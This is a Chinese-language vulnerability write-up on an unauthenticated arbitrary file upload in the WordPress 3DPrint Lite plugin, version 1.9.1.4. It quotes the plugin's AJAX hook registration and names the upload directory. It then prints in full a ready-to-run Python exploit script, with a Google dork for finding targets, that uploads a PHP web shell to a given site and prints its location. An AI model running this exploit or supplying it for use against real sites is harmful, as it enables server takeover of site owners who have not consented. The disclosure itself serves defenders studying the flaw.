


# WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>3DPrint Lite Version 1.9.1.4 版本</a-checkbox></br>

## 插件名

<a-checkbox checked>3DPrint Lite</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</a-checkbox></br>

## 漏洞复现

首先看一下插件注册的接口


```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`



向下看可以看到一个标准的文件上传代码



通过调试可以找到上传路径 `/wp-content/uploads/p3d/`


未授权调用 p3dlite_handle_upload 上传文件

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

